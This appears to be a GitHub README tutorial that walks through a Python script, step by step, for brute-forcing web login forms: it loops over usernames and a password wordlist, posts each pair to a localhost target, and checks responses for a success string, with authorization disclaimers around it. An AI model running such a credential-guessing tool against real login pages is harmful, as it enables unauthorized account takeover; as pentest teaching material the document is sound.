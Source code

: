 # Web-Login-Form-Brute-Forcing

## _Note:_
 _A web application you are authorized to test is required to test this script._
 <br>
 <br>

 ### Screenshots:
 <img width="471" alt="Screenshot 2024-11-01 202611" src="https://github.com/user-attachments/assets/617cf3a2-efb5-4ddf-a54f-a974c445b8fd">

 
### Steps to perform Brute Forcing on Login Pages using the provided script:

#### 1. Import required libraries:
    import requests
    import sys
<br>

#### 2. Set up target URL and parameters:
    target = "http://127.0.0.1:5000"
    usernames = ["admin", "user", "test"]
    passwords = "top-100-list.txt"
    needle = "Welcome Back"
<br>

#### 3. Create a loop to iterate through usernames:
    for username in usernames:

<br>

#### 4. Open and read the password file:
    with open(passwords, "r") as passwords_list:

<br>

#### 5. Create a nested loop to iterate through passwords:
    for password in passwords_list:
                password = password.strip("\n").encode()

<br>

#### 6. Display current attempt:
    sys.stdout.write("[X] Attempting user:password -> {}:{}\r".format(username, password.decode()))
                sys.stdout.flush()

<br>

#### 7. Send POST request to the target URL:
    r = requests.post(target, data={"username": username, "password": password})

<br>

#### 8. Check if login was successful:
    if needle.encode() in r.content:
                    sys.stdout.write("\n")
                    sys.stdout.write("\t[>>>>>>] Valid Password '{}' found for user '{}'!".format(password.decode(), username))
                    sys.exit()

<br>

#### 9. Handle case when no password is found:
    sys.stdout.flush()
            sys.stdout.write("\n")
            sys.stdout.write("\tNo Password Found for '{}'!".format(username))
            sys.stdout.write("\n")

<br>

_This script provides a basic framework for brute-forcing web login forms._ 

_However, it's important to note that using such scripts without permission is illegal and unethical._

_Always ensure you have proper authorization before testing security measures._
